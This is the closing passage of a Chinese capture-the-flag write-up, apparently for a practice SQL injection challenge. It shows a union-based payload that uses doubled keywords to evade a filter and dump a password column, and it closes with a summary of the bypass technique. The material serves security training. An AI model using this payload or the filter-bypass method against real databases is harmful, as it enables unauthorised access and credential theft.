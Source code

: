 <img width="712" height="301" src="../_resources/watermark_type_ZmFuZ3poZW5naGVpd_d15883df96f344c69.png"/>  
最后是字段内容，payload如下：

```
`'  ununionion seselectlect 1,2,group_concat(passwoorrd) frfromom geek.b4bsql %23`

- 1

```

<img width="712" height="300" src="../_resources/watermark_type_ZmFuZ3poZW5naGVpd_b44b356e37664220a.png"/>  
这样就得到了flag。

## 思路总结

1.既然爆出数据库错误，说明系统没有屏蔽报错信息，可以尝试union注入。  
2.注入发现过滤了一些敏感字符，尝试大小写，双写等绕过。  
3.注入前一定要判断是数值型注入还是字符型注入。

 